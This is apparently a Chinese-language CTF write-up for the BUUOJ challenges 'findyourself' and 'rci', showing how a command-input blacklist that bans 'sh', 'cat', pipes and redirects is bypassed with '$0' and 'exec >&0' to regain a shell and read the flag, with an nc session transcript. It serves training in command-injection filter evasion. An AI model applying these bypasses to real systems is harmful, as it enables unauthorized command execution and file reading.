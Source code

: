 check2过滤掉:`"sh", "*", "cat", "..", "&", "|", ">", "<"`，并且由于关闭了stdout和stderro，所以得不到输出
也可以通过 `ls -al /proc/self/` 或者 `ls -al /proc/self/cwd`获取当前路径，通过`$0`绕过check2，然后重定向到输入：

```s
$0
exec >&0
cat /flag
```

### rci

分析与findyourself一致，只是此题不能通过 `ls -al /proc/self/`来获取绝对路径,所以只能通过 `-ali`来获得路径：

> ls -l  # 以列表格式显示
> ls -a  # 不隐藏以.开头的文件
> ls -i  # 显示文件inode,其中inode唯一

打开一个终端，然后键入`ls -ali`可以得到当前文件夹下的inode,选择18631212（.代表当前文件夹），再开一个终端利用grep过滤，`ls -ali /tmp`得到当前路径，之后返回当前终端，`$0`绕过check2，得到flag

```s
nop@nop-pwn:~/Desktop$ nc node3.buuoj.cn 29623
正在送imagin去小黑窝~
Level Up ! 获得道具 ls
ls -ali
total 24
18631212 drwxr-xr-x 2 1000 1000  4096 Apr  2 04:32 .
17328166 drwxrwx--- 1    0 1000 20480 Apr  2 04:32 ..
[你得到了一些关于imagin的线索]
不过......Ta在哪里呢?
/tmp/R0OM#0731741966
恭喜你找到了imagin的小黑窝！氮素Ta已经被藕送走啦！哈哈哈哈

Level Up ! 获得道具 残缺的shell
$0
你成功地修复了shell，快去找imagin叭~
exec >&0
pwd
/tmp/R0OM#0731741966
cd ../..
cd imagin
ls
bin
dev
imagin
lib
lib32
lib64
libx32
rci
tmp
cat imagin
flag{5fcd2cea-5330-4d33-b21a-291eec874be3}
```
